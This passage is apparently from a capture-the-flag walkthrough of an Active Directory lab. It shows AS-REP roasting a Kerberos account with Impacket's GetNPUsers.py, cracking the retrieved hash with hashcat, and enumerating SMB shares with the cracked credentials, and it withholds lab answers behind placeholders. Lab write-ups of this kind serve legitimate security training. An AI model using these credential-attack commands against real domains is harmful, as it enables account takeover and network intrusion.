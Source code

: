 ```
┌──(kali㉿kali)-[~/Desktop/tools/impacket/examples]
└─$ python3 GetNPUsers.py spookysec.local/{item2} -no-pass 
Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for {item2}
[-] User {item2} doesn't have UF_DONT_REQUIRE_PREAUTH set
```

So let's go for {user1}. [Here's the hashcat documentation](https://hashcat.net/wiki/doku.php?id=example_hashes). 

Using hashcat,
```
┌──(kali㉿kali)-[/tmp]
└─$ hashcat -m {find the mode using the link above} hash passwordlist.txt --force 

...
${hash type}${user1}@SPOOKYSEC.LOCAL:{salt}${here used to be the hash}:{password :D :D :D}                
...

```

As voila! We have the password for {user1}! 

NOTE: We get the below error, if the `--force` flag is not there.
```
* Device #1: Skipping hash-mode {the mode used} - known CUDA/OpenCL Runtime/Driver issue (not a hashcat issue)
             You can use --force to override, but do not report related errors.
```


#### We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
`{user1}`


#### Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)
Again, look at the documentation!

#### Now crack the hash with the modified password list provided, what is the user accounts password?
{yeee hawwww}

## 6. More Enumeration
Since we now have the credentials for the {user1}, let us go for smb.
```
┌──(kali㉿kali)-[/tmp]
└─$ smbclient -L 10.10.99.177 -U spookysec.local/{user1}
Enter SPOOKYSEC.LOCAL\{user1}'s password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

